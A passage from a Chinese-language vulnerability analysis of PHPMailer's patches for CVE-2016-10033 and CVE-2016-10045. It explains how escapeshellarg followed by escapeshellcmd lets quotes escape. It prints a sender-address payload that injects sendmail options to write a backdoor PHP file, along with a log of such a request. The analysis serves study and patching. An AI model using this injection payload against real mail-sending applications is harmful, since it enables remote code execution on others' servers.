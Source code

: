 参考: 

### 补丁分析

在phpmailerv5.2.18中，官方对这个漏洞做的patch是这个样子：

        if (!empty($this->Sender) and $this->validateAddress($this->Sender)) {
            $params = sprintf('-f%s', escapeshellarg($this->Sender));
        }

但是这样依旧能绕过，具体的可以参见Hcamael师傅的blog，

escapeshellarg会在给参数添加单引号，并转义存在的单引号。
```
php > var_dump(escapeshellarg("a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com"))
php > ;
string(58) "'a'\''( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@a.com'"
```

正常情况下这样过滤是没有问题的，但是mail函数任然可以写文件成功。

因为再源码`ext/standand/mail.c:167`行处有
```
if (force_extra_parameters) {
        extra_cmd = php_escape_shell_cmd(force_extra_parameters);
    } else if (extra_cmd) {
        extra_cmd = php_escape_shell_cmd(extra_cmd);
    }
```

也就是先escapeshellarg而后escapeshellcmd，这样也造成了escapeshellarg的保护没法达到预期的效果，从而再次RCE：

原理参考:PHP escapeshellarg()+escapeshellcmd() 之殇:https://paper.seebug.org/164/

大致是escapeshellarg和escapeshellcmd对单引号的处理不一样，导致单引号逃逸。

```
a'( -OQueueDirectory=/tmp -X/tmp/backdoor.php )@qq.com
=>escapeshellarg
'a'\''( -OQueueDirectory=/tmp -X/tmp/123.php )@qq.com'
=>escapeshellcmd
'a'\\''\( -OQueueDirectory=/tmp -X/tmp/123.php \)@qq.com\'
```

最后任然可以执行命令，只是有一些报错:
```
)@qq.com'... Unbalanced ')'
)@qq.com'... User address required
MAILER-DAEMON... Saved message in /var/lib/sendmail/dead.letter
[Tue Oct  2 18:24:55 2018] 127.0.0.1:58654 [200]: /test.php?x=aaa%27(%20-X/var/www/html/rce.php%20)@qq.com
```

phpmailer v5.2.19中未修复。

在phpmailerv5.2.20中的补丁为:
```
        if (!empty($this->Sender) and $this->validateAddress($this->Sender)) {
            // CVE-2016-10033, CVE-2016-10045: Don't pass -f if characters will be escaped.
            if (self::isShellSafe($this->Sender)) {
                $params = sprintf('-f%s', $this->Sender);
            }
        }
```

